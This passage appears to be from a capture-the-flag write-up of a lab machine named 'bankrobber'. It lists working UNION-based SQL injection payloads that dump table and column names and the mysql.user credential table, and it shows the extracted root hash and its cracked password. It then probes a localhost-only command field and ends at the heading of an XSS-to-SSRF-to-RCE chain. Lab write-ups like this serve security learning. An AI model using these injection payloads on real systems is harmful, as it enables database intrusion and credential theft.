 `1'or'1' AND '1'='2' UNION SELECT table_name, column_name, 1 FROM information_schema.columns-- `
this will dump every column name in the schema.

`1'OR'1' AND '1'='2' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables-- `
this will dump every table name in the schema.
 
`1'OR'1' AND '1'='2' UNION SELECT group_concat(table_name), 2, 3 FROM information_schema.tables WHERE table_schema=database()-- `
return the database name.

```mysql
/*
DB name: bankrobber 
user: root@localhost
version: 10.1.38-MariaDB 
*/

1'OR'1' AND '1'='2' UNION SELECT concat(host, user, password),2,3 FROM mysql.user-- 

/*
localhostroot*F435725A173757E57BD36B09048B8B610FF4D0C4    2
127.0.0.1root*F435725A173757E57BD36B09048B8B610FF4D0C4    2
::1root*F435725A173757E57BD36B09048B8B610FF4D0C4    2
localhost    2
localhostpma    2
HASH: F435725A173757E57BD36B09048B8B610FF4D0C4

Possible Hashs:
[+]  SHA-1
[+]  MySQL5 - SHA-1(SHA-1($pass))
F435725A173757E57BD36B09048B8B610FF4D0C4 MySQL4.1/MySQL5 
User: root
Password Welkom1!
*/
```
So after picking the DB apart I was able to get a password hash.
That I was easily able to crack using rainbow tables.

So let's look at the third input field.

Backdoorchecker:
To quickly identify backdoors located on our server;
we implemented this function.
For safety issues you're only allowed to run the 'dir' command with any arguments.

So we run `dir` into the field and get prompted.

`It's only allowed to access this function from localhost (::1).
This is due to the recent hack attempts on our server.`

I tried a bunch of Curl post request spoofing the headers to make it look like the packet was coming from localhost but no cigar.

### Weaponization/Delivery/Exploitation/Installation:
**XSS->SSRF->RCE**
